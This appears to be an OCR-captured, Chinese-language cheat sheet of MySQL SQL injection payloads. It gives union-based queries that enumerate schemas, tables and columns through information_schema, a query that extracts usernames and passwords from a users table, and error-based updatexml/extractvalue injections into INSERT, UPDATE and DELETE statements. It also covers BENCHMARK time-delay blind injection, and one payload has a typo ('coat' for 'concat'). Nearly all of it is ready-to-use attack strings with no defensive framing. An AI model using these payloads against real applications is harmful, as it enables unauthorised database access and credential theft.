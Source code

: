 
-------------------------------------------------------------------------------------------------------

### 可回显注入
 
从information_schema.columns可以查table_schema、table_name、column_name  
 
库  
`union select unhex(hex(group_concat(schema_name))) from information_schema.schemata`  
 
表  
`union select unhex(hex(group_concat(table_name))) from information_schema.tables where table_schema=0x(数据库名对应的十六进制）`  
 
字段  
`union select unhex(hex(group_concat(column_name))) from information_schema.columns where table_schema=0x(数据库名对应的十六进制) and table_name=0x(表名对应的十六进制）`  
 
查询数据（实例）  
`union select 1,2,3,4,concat(username,0x3a,password),6 from admin.users`  //获取到表、字段后，就可以查询所需信息了，如查询users库的admin表的用户名和密码  

插入数据（不用引号）  
```
INSERT INTO Users(Login, Password, Level) VALUES( char(0x70) + char(0x65) + char(0x74) + char(0x65) + char(0x72), 
char(0x70) + char(0x65) + char(0x74) + char(0x65) + char(0x72), 0x64)  
```

insert/update/delete 语句中注入  
`or updatexml(1,concat(0x7e,(version())),0) or`  
e.g   
INSERT INTO users (id, username, password) VALUES (2,'r00tgrok' or updatexml(0,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1)),0) or '', 'ohmygod_is_r00tgrok');  
`or extractvalue(1,concat(0x7e,database())) or`  
e.g   
UPDATE users SET password='Nicky' or extractvalue(1,concat(0x7e,database())) or '' WHERE id=2 and username='Pseudo_Z';  
DELETE FROM users WHERE id=1 or extractvalue(1,coat(0x7e,database())) or '';   

------------------------------------------------------------------------------------------------------------

### 盲注查询
#### BENCHMARK() (M)
Basically, we are abusing this command to make MySQL wait a bit. Be careful you will consume web servers limit so fast!  

BENCHMARK(howmanytimes, do this)    

Real World Samples    
Are we root ? woot!     
`IF EXISTS (SELECT * FROM users WHERE username = 'root') BENCHMARK(1000000000,MD5(1))`  
Check Table exist in MySQL   
`IF (SELECT * FROM login) BENCHMARK(1000000,MD5(1))`  
